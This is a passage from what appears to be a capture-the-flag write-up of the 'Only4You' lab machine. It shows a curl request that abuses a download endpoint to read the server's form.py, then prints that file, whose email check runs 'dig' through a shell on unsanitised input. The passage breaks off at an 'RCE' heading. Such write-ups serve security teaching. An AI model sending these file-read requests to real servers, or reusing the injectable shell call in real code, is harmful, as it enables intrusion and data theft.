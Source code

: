 We can see that there is two methods allowed, `GET` and `POST`. `POST` requires the form parameters `email`, `subject`, and `message`. `sendmessage` is being imported from a `form` file so let's get the `form.py` file:\


**Command**

`curl -s http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/form.py"`

**Only4you.htb/Form.py**

```python
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
	if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
		return 0
	else:
		domain = email.split("@", 1)[1]
		result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
		output = result.stdout.decode('utf-8')
		if "v=spf1" not in output:
			return 1
		else:
			domains = []
			ips = []
			if "include:" in output:
				dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
				dms.pop(0)
				for domain in dms:
					domains.append(domain)
				while True:
					for domain in domains:
						result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
						output = result.stdout.decode('utf-8')
						if "include:" in output:
							dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
							domains.clear()
							for domain in dms:
								domains.append(domain)
						elif "ip4:" in output:
							ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
							ipaddresses.pop(0)
							for i in ipaddresses:
								ips.append(i)
... SNIP
```

### RCE
